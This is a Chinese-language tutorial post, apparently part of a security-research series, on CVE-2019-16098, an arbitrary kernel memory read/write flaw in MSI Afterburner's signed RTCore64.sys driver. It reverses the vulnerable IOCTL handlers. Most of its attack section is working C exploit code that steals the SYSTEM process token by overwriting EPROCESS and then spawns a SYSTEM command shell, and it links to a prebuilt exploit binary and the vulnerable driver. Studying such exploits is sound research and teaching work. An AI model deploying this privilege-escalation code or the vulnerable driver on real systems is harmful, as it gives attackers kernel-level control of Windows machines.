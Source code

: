 # 【第 14 話】CVE-2019-16098 研究－任意讀寫虛擬記憶體

## 文章大綱
這篇要說明 CVE-2019-16098 的漏洞成因，然後利用 RTCore64.sys 的任意讀寫漏洞竄改 EPROCESS Token 達成提權。


## 介紹 CVE-2019-16098
首先來看看 [CVE-2019-16098](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16098) 在 MITRE 的描述。

The driver in Micro-Star MSI Afterburner 4.6.2.15658 (aka RTCore64.sys and RTCore32.sys) allows any authenticated user to read and write to arbitrary memory, I/O ports, and MSRs. This can be exploited for privilege escalation, code execution under high privileges, and information disclosure. These signed drivers can also be used to bypass the Microsoft driver-signing policy to deploy malicious code.

直接用列點的方式抓重點。
- 軟體：[Micro-Star MSI Afterburner](https://tw.msi.com/Landing/afterburner/graphics-cards) 4.6.2.15658
- 元件：RTCore64.sys
- 漏洞成因：任意讀寫記憶體、I/O Port、MSR
- 影響：提權、Kernel 任意執行

從我的 GitHub 下載目標驅動程式檔案 [RTCore64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2019-16098/bin/RTCore64.sys)。對驅動程式檔案點右鍵 => 內容 => 數位簽章，可以看到 RTCore64.sys 的數位簽章資訊，是 2017 年 8 月 27 日的簽章。

![](Signature.png)


## 逆向分析
IDA 開啟 RTCore64.sys 後看 `DriverEntry` 可以快速找到 Dispatcher 的函數位址與 Symbolic Link Name `RTCore64`。

![](DriverEntry.png)

雖然 RTCore64.sys 的漏洞很多，不過這篇會針對任意讀寫，攻擊漏洞達成提權。

分析 IoControlCode 0x80002048 可以看到程式把攻擊者可控的 SystemBuffer 當成指標讀取位址所指向的記憶體內容，然後寫回攻擊者可讀的記憶體，導致任意讀的漏洞。

![](Read.png)

分析 IoControlCode 0x8000204C 則可以發現程式讀取攻擊者可控的 SystemBuffer，將值寫入攻擊者可控的任意位址，導致任意寫的漏洞。

![](Write.png)


## 攻擊腳本
程式主要參考專案 [Barakat/CVE-2019-16098](https://github.com/Barakat/CVE-2019-16098)，我更改了 ntoskrnl.exe 起始位址的取得方法和一些程式邏輯並加上註解。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/CVE-2019-16098)。

程式步驟如下。
1. 取得 `PsInitialSystemProcess` 的位址
2. 讀取 System 的 EPROCESS Token
3. 迴圈找出當前 Process 的 EPROCESS 位址
4. 竄改當前 Process 的 EPROCESS Token

### 1. 取得 PsInitialSystemProcess 的位址
在[【第 13 話】CVE-2020-17382 研究－Buffer Overflow（下）](/asset/第%2013%20話)有介紹取得 ntoskrnl.exe 起始位址的方法。這裡用同個方式在拿到 ntoskrnl.exe 起始位址後，搭配 [LoadLibraryW](https://learn.microsoft.com/zh-tw/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryw) 和 [GetProcAddress](https://learn.microsoft.com/zh-tw/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) 算出 `PsInitialSystemProcess` 的 Offset，其中 `PsInitialSystemProcess` 是指向 System EPROCESS 的 Windows Kernel 全域變數。

```c
// 取得 ntoskrnl.exe 的起始位址
INT64 NtoskrnlBaseAddress = (INT64)GetBaseAddr("ntoskrnl.exe");

// 1. 用 LoadLibrary 和 GetProcAddress 取得 PsInitialSystemProcess 的位址
HMODULE Ntoskrnl = LoadLibraryW(L"ntoskrnl.exe");
const DWORD64 PsInitialSystemProcessOffset =
    (DWORD64)(GetProcAddress(Ntoskrnl, "PsInitialSystemProcess")) - (DWORD64)Ntoskrnl;
FreeLibrary(Ntoskrnl);
const DWORD64 PsInitialSystemProcessAddress =
    ReadMemoryDWORD64(Device, NtoskrnlBaseAddress + PsInitialSystemProcessOffset);
```

### 2. 讀取 System 的 EPROCESS Token
有了 System 的 EPROCESS 位址後，利用 RTCore64.sys 的任意讀漏洞就能讀取 System 的 EPROCESS Token。

```c
// 利用 RTCore64.sys 的任意讀漏洞讀取 Kernel 記憶體
DWORD ReadMemoryPrimitive(HANDLE Device, DWORD Size, DWORD64 Address)
{
    RTCORE64_MEMORY_READ_WRITE MemoryRead {};
    MemoryRead.address = Address;
    MemoryRead.size = Size;

    DWORD BytesReturned;

    DeviceIoControl(Device, 0x80002048, &MemoryRead, sizeof(MemoryRead), &MemoryRead, sizeof(MemoryRead), &BytesReturned,
                    nullptr);

    return MemoryRead.value;
}

// 從指定 Kernel 記憶體中讀取 8 bytes
DWORD64 ReadMemoryDWORD64(HANDLE Device, DWORD64 Address)
{
    return ((DWORD64)(ReadMemoryPrimitive(Device, 4, Address + 4)) << 32) | ReadMemoryPrimitive(Device, 4, Address);
}

int main()
{
    ...
    // 2. 利用 RTCore64.sys 的任意讀漏洞讀取 System 的 EPROCESS Token
    const DWORD64 SystemProcessToken = ReadMemoryDWORD64(Device, PsInitialSystemProcessAddress + TokenOffset) & ~15;
    ...
}
```

### 3. 迴圈找出當前 Process 的 EPROCESS 位址
跟[【第 10 話】Windows Kernel Shellcode](/asset/第%2010%20話) 相同原理，從 System 的 EPROCESS ActiveProcessLinks 開始迴圈尋找當前 Process 的 EPROCESS。

```c
// 3. 迴圈找出當前 Process 的 EPROCESS 位址
const DWORD64 CurrentProcessId = (DWORD64)GetCurrentProcessId();
DWORD64 ProcessHead = PsInitialSystemProcessAddress + ActiveProcessLinksOffset;
DWORD64 CurrentProcessAddress = ProcessHead;

do
{
    const DWORD64 ProcessAddress = CurrentProcessAddress - ActiveProcessLinksOffset;
    const DWORD64 UniqueProcessId = ReadMemoryDWORD64(Device, ProcessAddress + UniqueProcessIdOffset);
    if (UniqueProcessId == CurrentProcessId)
    {
        break;
    }
    CurrentProcessAddress = ReadMemoryDWORD64(Device, ProcessAddress + ActiveProcessLinksOffset);
} while (CurrentProcessAddress != ProcessHead);

CurrentProcessAddress -= ActiveProcessLinksOffset;
```

### 4. 竄改當前 Process 的 EPROCESS Token
找到當前 Process 的 EPROCESS 後，利用 RTCore64.sys 的任意寫漏洞將 Token 竄改為 System 的 EPROCESS Token，然後跳出有 System 權限的 cmd。

```c
// 利用 RTCore64.sys 的任意寫漏洞寫入 Kernel 記憶體
VOID WriteMemoryPrimitive(HANDLE Device, DWORD Size, DWORD64 Address, DWORD Value)
{
    RTCORE64_MEMORY_READ_WRITE MemoryRead {};
    MemoryRead.address = Address;
    MemoryRead.size = Size;
    MemoryRead.value = Value;

    DWORD BytesReturned;

    DeviceIoControl(Device, 0x8000204c, &MemoryRead, sizeof(MemoryRead), &MemoryRead, sizeof(MemoryRead), &BytesReturned,
                    nullptr);
}

// 從指定 Kernel 記憶體中寫入 8 bytes
VOID WriteMemoryDWORD64(HANDLE Device, DWORD64 Address, DWORD64 Value)
{
    WriteMemoryPrimitive(Device, 4, Address, Value & 0xffffffff);
    WriteMemoryPrimitive(Device, 4, Address + 4, Value >> 32);
}

int main()
{
    ...
    // 4. 利用 RTCore64.sys 的任意寫漏洞寫入 System 的 EPROCESS Token
    // 竄改當前 Process 的 EPROCESS Token
    WriteMemoryDWORD64(Device, CurrentProcessAddress + TokenOffset, SystemProcessToken);

    system("cmd");
    ...
}
```


## 測試
1. 在 VM 中載入 [RTCore64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2019-16098/bin/RTCore64.sys)
2. 用一般使用者權限執行 [CVE-2019-16098.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2019-16098/bin/CVE-2019-16098.exe)，會看到一個 cmd 跳出來
3. 輸入 `whoami` 會看到已經成功提權 `system`

## 參考資料
- [Barakat/CVE-2019-16098](https://github.com/Barakat/CVE-2019-16098)
- [Windows kernel global variables](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/mm64bitphysicaladdress)
- [CVE-2019-16098](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16098)